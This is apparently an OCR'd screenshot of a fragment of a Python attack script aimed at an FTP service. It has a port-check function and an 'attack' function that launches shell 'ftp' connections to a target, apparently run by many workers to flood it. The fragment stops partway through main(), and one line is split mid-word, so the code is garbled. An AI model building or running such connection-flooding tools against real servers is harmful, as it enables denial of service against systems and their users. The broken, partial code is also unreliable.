                                                                                                                                                                                                                                              
def test(t,p):                                                                                                                                                                                                                               
        s = socket.socket()                                                                                                                                                                                                                  
        s.settimeout(10)                                                                                                                                                                                                                     
        try:                                                                                                                                                                                                                                 
                s.connect((t, p))                                                                                                                                                                                                            
                response = s.recv(65535)                                                                                                                                                                                                     
                s.close()                                                                                                                                                                                                                    
                return 0                                                                                                                                                                                                                     
        except socket.error:                                                                                                                                                                                                                 
                print("Port {} is not open, please specify a port that is open.".format(p))                                                                                                                                                  
                sys.exit()                                                                                                                                                                                                                   
def attack(targ, po, id):                                                                                                                                                                                                                    
        try:                                                                                                                                                                                                                                 
                subprocess.Popen("ftp {0} {1}".format(targ, po), shell=True, stdout=subprocess.PIPE, stderr=subproce                                                                                                                         ss.PIPE)                                                                                                                                                                                                                                     
                #print("Worker {} running".format(id))                                                                                                                                                                                       
        except OSError: pass                                                                                                                                                                                                                 
def main():                                                                                                                                                                                                                                  
        global target, port, start                                                                                                                                                                                                           
        print banner                                                                                                                                                                                                                         
        try:                                                                                                                                                                                                                                 
                target = sys.argv[1]                                                                                                                                                                                                         
        except:                                                                                                                                                                                                                              
                print usage                                                                                                                                                                                                                  